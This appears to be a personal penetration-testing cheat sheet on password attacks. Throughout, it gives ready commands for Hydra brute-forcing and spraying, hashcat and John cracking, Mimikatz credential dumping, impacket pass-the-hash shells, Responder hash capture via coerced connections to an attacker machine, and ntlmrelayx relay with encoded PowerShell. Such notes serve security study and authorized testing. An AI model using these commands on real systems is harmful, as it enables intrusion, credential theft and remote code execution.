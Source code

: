 ```yaml
---
layout: blank
pagetitle: Password Attacks
---
```


### Hydra
- Can be used on a lot of things
- SSH:
	- `sudo hydra -l {username} -P {password_list} -s {port} ssh://{IP}`
	- Lets say we found a password, and want to spray it everywhere (like rdp)
		- `sudo hydra -L {username_list} -p {password} rdp://{IP}`
- HTTP:
	- Provide a username, password list, IP, endpoint to post to, ^PASS^ for the password used, and a string in the HTTP of the failed result
	- `sudo hydra -l {username} -P {password_list} {IP} http-post-form "/{endpoint}:{param1}=^PASS^:Login failed. Invalid"`
		- So, for example: `sudo hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:user=admin&password=^PASS^:Login failed. Invalid"`
	- Could also likely just use ffuf (with a filter on size if app returns 200)

### Passwords
- AES is symmetric, RSA is asymmetric
- GPUs crack like a thousand times faster than CPUs

### Finding Passwords
- Just use noseyparker. Can scan file systems, cloned repositories, and even entire github organizations.
    - `noseyparker scan {repo/directory}`
    - `noseyparker scan --github-org={org}`
    - Show results with `noseyparker report`
- Make sure to save or delete the existing `datastore.np` before starting a new scan

### Password Cracking
- Mutating Wordlists:
	- https://github.com/frizb/Hashcat-Cheatsheet?tab=readme-ov-file
	- Sometimes wordlists might not match the minimum requirements of a password for a location being tested, so the wordlist can drop all of the unneeded passwords
	- `hashcat -r "$1 c $!" {password_list}` will capitalize the first letter of each password, append "1" to the end of each password, and then append "!" to the end of that password
		- Putting these rules into a file with newlines will create a new password for each newline, adding that lines modifications to that password
		- Hashcat provides some rules in `/usr/share/hashcat/rules/`, like `rockyou-30000`
			- They always seem to use `best64.rule`
	- These modifications can be stored in files and used when cracking--for example:
		- `hashcat -m 0 {hash} {password_list} -r {modification_file} --force`
- Ensure to find the type of hash before cracking to save time
- Extracting hashes:
	- Many methods, but here's a novel one:
		- `Get-ChildItem -Path C:\ -Include *.kdbx -File -Recurse -ErrorAction SilentlyContinue` will search for kdbx files (KeePass files) containing hashes
		- keepass2john {keepass_database_file} to extract hash
- Determining hash type:
	- `hashcat --help` will list a lot of info about types of hashes, so if we know where the hash is from, we can look it up here with `hashcat --help | grep -i "{identifier}`
		- This should return the hashcat mode for the hash, which is a number like 13400
- Cracking the hash:
	- `hashcat -m {hashcat_mode (e.g. 13400)} {hash} {wordlist} -r {mutation} --force`
		- Increase speed with `-O -w 4 --opencl-device-types 1,2`

### SSH Private Key Passphrase
- `ssh2john {private RSA SSH key file} > ssh.hash` will put the hash in a crack-able format
- `hashcat -m 22921 ssh.hash {password_list} -r {mutation} --force` will crack the SSH hash
	- 22921 comes from looking up \$6$ in the `hashcat --help` response
	- However, this might result in an error due to this cipher not being supported by hashcat
- John the Ripper 
	- Can handle the error above
	- Can use mutation rules, placed at the end of /etc/john/john.conf
	- `john --wordlist={password_list} --rules=sshRules {hash}` to crack

### NTLM
- NT LAN Manager or Net-NTLMv2
- Windows stores hashed passwords in the Security Account Manager (SAM) database file
- [Mimikatz](https://github.com/gentilkiwi/mimikatz) can extract password hashes from memory as a basic user
	- Prebuilt version [here](https://github.com/gentilkiwi/mimikatz/releases)
	- Can dump plaintext passwords straight as an Administrator
	- Run with `.\mimikatz.exe`
	- `privilege::debug` gives us the `SeDebugPrivilege` to run below commands
	- `token::elevate` to elevate to SYSTEM user
	- `lsadump::sam` will dump NTLM hashes of local users
	- `sukurlsa::logonpasswords` will look for clear-text passwords, dump NTLM hashes (including domain users), and dump Kerberos tickets
- Crack NTLM
	- `hashcat -m 1000 {hash} {password_list} -r {mutations} --force`
- **Passing NTLM**
	- Don't necessarily need to crack the NTLM hash to use it
		- NTLM hashes aren't salted between sessions and remain static
	- Many tools available:
		- SMB enumeration: `smbclient` and `crackmapexec`
		- Command execution: `impacket` -> `psexec.py\/wmiexec.py`
		- `Mimikatz` can also pass-the-hash
	- Example - accessing SMB share with `smbclient`
		- `smbclient \\\\{IP}\\{SMB_share_endpoint} -U Administrator --pw-nt-hash {hash_from_Mimikatz}`
	- Example2 - getting a shell as an Administrator with `psexec.py`
		- Searches for a writeable share and uploads an exe to it, registers exe as a Windows service and starts it
		- `impacket-psexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}` 
		- `impacket-wmiexec -hashes {32_zeroes}:{hash} {DOMAIN}/{user}@{IP}`
		- `impacket-smbexec -hashes lmhash:nthash {domain}/{user}@{IP}`
		- `impacket-atexec -hashes lmhash:nthash {domain}/{user}@{IP} {command}`
- Cracking Net-NTLMv2
	- Useful when we are an unprivileged user
	- We have the target start authentication against a machine we own, and capture the hash used during the authentication process
	- *Responder* is a good tool for capturing Net-NTLMv2 hashes
		- Sets up an SMB server that handles auth process and prints hashes
		- `sudo responder -I {network interface (like tap0)}` to run responder on any given network interface
	- Getting the target server to contact our server is tricky
		- With RCE, it's easy, just run something like `dir \\{Our_machine_IP}\share` on the machine running the responder server
			- Then, crack the hash with hashcat 5600
		- Without RCE, there are a couple different techniques
			- If there's a file upload on a webserver on the target, we can use a UNC path (`\\{our_IP}\share\xyz)` and the application may try to reach out for the file
				- This might not work if the slashes are the wrong way, so try something like `//{IP}/share.php` as the filename
			- I'd assume local file inclusion would have the same result
	- **Relay Attack**
		- Lets say you're in a situation where you're on a local admin account, but it's an admin on a different machine. Additionally, we can't crack the hash from the admin. 
		- Instead of printing the hash, forward it along using *ntlmrelayx*
		- `sudo impacket-ntlmrelayx --no-http-server -smb2support -t {IP} -c "powershell -enc {base64_command}"`
			- This will set up an SMB relay to the IP with a powershell command to run
			- Run SMB `dir` from the machine we own against the *ntlmrelayx* machine, which will immediately pass the hash received onto the target machine